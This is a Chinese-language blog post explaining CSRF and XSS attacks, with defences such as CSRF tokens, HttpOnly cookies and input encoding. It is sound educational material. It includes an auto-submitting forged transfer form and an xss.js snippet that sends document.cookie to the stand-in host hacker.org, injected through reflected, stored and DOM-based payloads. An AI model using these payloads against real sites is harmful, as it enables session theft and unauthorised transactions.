 Title: CSRF攻击和XSS攻击
Date: 2018-11-27 23:59:46
Category: 技术
Tag: 安全
============================================================
### CSRF
>CSRF，全称Cross-site request forgery（跨站请求伪造），其原理是利用用户的身份，执行非用户本身意愿的操作(隐式身份验证机制)。
<!--more-->
#### 形式
图片URL、超链接、Form提交等，也可以嵌入到第三方论坛、文章中等地方。

#### 危害
攻击者可以盗用用户的身份，以用户的名义进行恶意操作，包括但不限于以用户的名义发送邮件、资金转账、网上等危害用户的操作

#### 原理

![CSRF攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/CSRF%E6%94%BB%E5%87%BB.png)

假定受信的站点A是`http://example.org`，恶意站点B是`http://hacker.org`

1. 用户访问并登陆`http://example.org`；
2. 站点A生成并返回Cookie给用户；
3. 用户点击恶意网站B`http://hacker.org`提供的图片链接`< img src="http://example.org/transfer?amount=10&for=hacker">`（或者包含该图片的链接地址），如果此时站点A的Cookie未过期，那么浏览器就会带上Cookie并向站点A发起`http://example.org?amount=10&for=hacker`请求；
4. 由于发起请求带有用户的Cookie，站点A通过授信并进行相关的操作，造成相关损失。

上面使用的是通过`GET`请求冒用用户发起请求，不仅`GET`请求，`POST`也没法防止`CSRF`攻击，下面是一个自动提交表单的`CSRF`攻击。

```
<form action="http://example.org/transfer" method="POST">
    <input type="hidden" name="amount" value="10">
    <input type="hidden" name="for" value="hacker">
</form>
<script>document.forms[0].submit()</script>
```
用户在打开这个页面后，该表单请求会自动提交，相当于用户自己进行了一次POST请求。

####防御
##### 1.验证码
>最有效的防御方法

CSRF的原理是**在用户毫不知情的情况下发起了网络请求**，而验证码强制用户要与应用进行交互，才能提交请求。
但处处使用验证码对于用户来说是一件体验很差的事情。

##### 2.检验请求头部Refer字段
>Refer用来记录该HTTP请求的来源地址

通过Refer可以保证用户的请求来自我们相信的页面地址。但是，Refer字段是由用户浏览器提供的，不同的浏览器实现各有差异，并且有些浏览器处于保护用户隐私，并不会发送Rfer字段。
因此使用Refer字段来防御CSRF有一定的限制，但从该字段可以用来监控CSRF攻击的发生。

##### 3.CSRF Token

CSRF之所以能够成功，是因为**攻击者知道攻击所需要的所有参数，因此能够构造完整请求**，因此服务器会把攻击者的请求误认为是用户发起的请求。
那么如果每次请求都让用户带上一个攻击者无法获取到的随机数，那么攻击者就无法构造完全的请求，服务器也能将攻击者的请求和用户的请求给区分开，这就是`CSRF Token`。

CSRF Token的过程：
1. 服务器生成随机数Token（该随机数生成方法要足够安全），并将该随机Token保存在用户Session（或Cookie中）；
2. 同时，服务器在生成表单提交页面的同时，需要将改Token嵌入到表单DOM（通常作为一个隐藏的input标签值，如`<input type="hidden" name="_csrf_token" value="xxxx">`）中；
3. 用户在提交表单时，该Token会随着表单数据一起提交到服务器，服务器检测提交的Token是否与用户Session（或Cookie）中的是否一致，如果不一致或者为空，则表示非法请求；否则认为是一个合法请求。

由于攻击者得到该随机Token，因此无法构造完整请求，所以可以用来防止CSRF攻击。**但是如果网站存在XSS攻击，那么该防范方法会失效，因为攻击者可以获取到用户的Cookie，从而构造完成的请求，这个过程称为XSRF。**使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以Form或AJAX形式提交，避免Token泄露。

CSRF是代替用户完成指定的动作，不直接窃取用户数据，而是代替用户发起请求，但需要知道其他用户页面的代码和数据包。

### XSS攻击
>XSS, 全称是Cross site script，即跨站脚本，为了避免与CSS，因此简称XSS

#### 形式
利用网站对用户输入没有进行限制或过滤，从而在页面中嵌入某些代码，当别的用法访问到该网页时，会执行对应的代码，从而使得攻击者可以获取

#### 危害
由于Cookie已经被攻击者获取，因此攻击可以登录账号，进行相关操作，如更改信息、转账、删除数据等敏感操作。

#### 原理
主要原因：太过于新人用户的输入

##### 反射型XSS攻击
>最常见的XSS请求攻击，将XSS攻击代码放在链接上，由用户点击触发使服务器返回XSS攻击代码，并在客户端执行，从而发起Web攻击。

![反射型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%8F%8D%E5%B0%84%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

`http://example.org?search=hello,world`：
对于该请求，服务器会将`hello,world`回显到页面中返回给客户端，客户端会显示`hello,world`。

`http://example.org?search=<script>alter('I get you!')</script>`：
对于该请求，如果服务器对输入没有进行任何处理，那么对于，那么js代码`<script>alter('I get you!')</script>`会嵌入到页面中，客户端再渲染页面的时候回执行该js代码，并弹出alter框。

`http://example.org?search=<script>src='http://hacker.com/xss.js'</script>`

```
//xss.js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://hacker.org/xss?cookie='+encodeURIComponent(document.cookie);
```

这样将用户在点击上述连接的时候，浏览器会自动引入`xss.js`文件，并执行其中js语句，里面的js语句会读取用户Cookie，并将其作为参数访问Get请求的页面，然后Cookie就会发送给攻击者。

###### 存储型XSS攻击
>与发射型不同的是，存储型XSS攻击的攻击代码是存在在网站数据库，当包含该攻击代码的页面被用户打开时，该脚本会自动运行，将打开该网页的所有用户的Cookie发送给攻击者。

![存储型XSS攻击](https://kirako-1253293746.cos.ap-chengdu.myqcloud.com/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%94%BB%E5%87%BB.png)

假设有一个论坛允许用户留言并且对用户的输入不进行处理，那么攻击者在该网站的某个帖子下面留以下信息。

```
哈哈哈，有趣有趣
<script>src='http://hacker.com/xss.js'</script>
```

网站将该留言存储到数据库，那么之后每个在访问包含上述留言的用户的Cookie都会被发往攻击者。

###### Dom Based XSS
>这种类型的攻击与反射型有点类似，区别在于用户的输入并不是由服务器来返回，主要是由客户端通过DOM动态的输出数据到页面，从客户端获得DOM的数据在本地执行。

```
<HTML>
<TITLE>Welcome!</TITLE>
Hi
<SCRIPT>
var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
</SCRIPT>
<BR>
Welcome to our system
…
</HTML>
```

该页面中的某些数据是从URL中解析的，比如下面的一个请求`http://hacker.org/welcome.html?name=<script>src='http://hacker.com/xss.js'</script>`。用户在点击这个请求的时候，本地浏览器回从URL中获取name属性并填充到HTML中，从而引起XSS攻击。



#### 防御
主要解决方案：不信任用户输入的所有数据

1. 设置Cookie的属性为`Http only`，这样js就无法获取Cookie值；
2. 严格检查表单提交的类型，并且后端服务一定要做，不能信任前段的数据；
3. 对用户提交的数据就行`Html encode`处理，将其转化为HTML实体字符的普通文本；
4. 过滤或移除特殊的HTML标签，如`<script>`、`<iframe>`等；
5. 过滤js事件的标签，如`onclick=`、`onfoucs=`等、


#### Refer
1. [白帽子讲Web安全（纪念版）](https://item.jd.com/11483966.html)
2. [浅谈CSRF攻击方式](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)
3. [Web安全相关（二）：跨站请求伪造（CSRF/XSRF）](https://www.cnblogs.com/Erik_Xu/p/5481441.html)
4. [CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)
5. [XSS跨站脚本攻击](https://www.cnblogs.com/phpstudy2015-6/p/6767032.html)
6. [【web安全】第一弹：利用xss注入获取cookie](https://www.cnblogs.com/adelaide/articles/6035015.html)

